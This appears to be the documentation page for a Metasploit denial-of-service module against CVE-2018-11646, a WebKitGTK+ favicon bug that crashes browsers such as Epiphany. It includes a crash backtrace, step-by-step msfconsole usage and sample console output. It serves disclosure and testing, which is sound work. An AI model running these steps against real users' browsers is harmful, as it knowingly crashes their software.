 ## Vulnerable Application

This module exploits a vulnerability in `WebKitFaviconDatabase` when `pageURL` is unset.
If successful, it could lead to application crash, resulting in denial of service.

The `webkitFaviconDatabaseSetIconForPageURL` and `webkitFaviconDatabaseSetIconURLForPageURL`
functions in `UIProcess/API/glib/WebKitFaviconDatabase.cpp` in WebKit, as used in WebKitGTK+
through 2.21.3, mishandle an unset `pageURL`, leading to an application crash.

Related links : 
* https://bugs.webkit.org/show_bug.cgi?id=186164
* https://datarift.blogspot.com/2018/06/cve-2018-11646-webkit.html

## Backtrace using Fedora 27

```
#0 WTF::StringImpl::rawHash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 508
#1 WTF::StringImpl::hasHash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 514
#2 WTF::StringImpl::hash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 525
#3 WTF::StringHash::hash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringHash.h line 73
#9 WTF::HashMap, WTF::HashTraits >::get
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/HashMap.h line 406
#10 webkitFaviconDatabaseSetIconURLForPageURL
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitFaviconDatabase.cpp line 193
#11 webkitFaviconDatabaseSetIconForPageURL
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitFaviconDatabase.cpp line 318
#12 webkitWebViewSetIcon
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitWebView.cpp line 1964
#13 WTF::Function::performCallbackWithReturnValue
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/GenericCallback.h line 108
#15 WebKit::WebPageProxy::dataCallback
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/WebPageProxy.cpp line 5083
#16 WebKit::WebPageProxy::finishedLoadingIcon
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/WebPageProxy.cpp line 6848
#17 IPC::callMemberFunctionImpl::operator()
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/glib/RunLoopGLib.cpp line 68
#29 WTF::RunLoop::::_FUN(gpointer)
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/glib/RunLoopGLib.cpp line 70
#30 g_main_dispatch
at gmain.c line 3148
#31 g_main_context_dispatch
at gmain.c line 3813
#32 g_main_context_iterate
at gmain.c line 3886
#33 g_main_context_iteration
at gmain.c line 3947
#34 g_application_run
at gapplication.c line 2401
#35 main
at ../src/ephy-main.c line 432 

```

## Verification

    Start msfconsole
    use auxiliary/dos/http/webkitplus
    Set SRVHOST
    Set SRVPORT
    Set URIPATH
    run (Server started)
Visit server URL in epiphany web browser which uses webkit. 

## Scenarios

```
msf auxiliary(dos/http/webkitplus) > show options 

Module options (auxiliary/dos/http/webkitplus):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.1.105    yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /                no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer


msf auxiliary(dos/http/webkitplus) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(dos/http/webkitplus) > 
[*] Using URL: http://192.168.1.105:8080/
[*] Server started.

msf auxiliary(dos/http/webkitplus) > 
[*] Sending response

msf auxiliary(dos/http/webkitplus) >
```
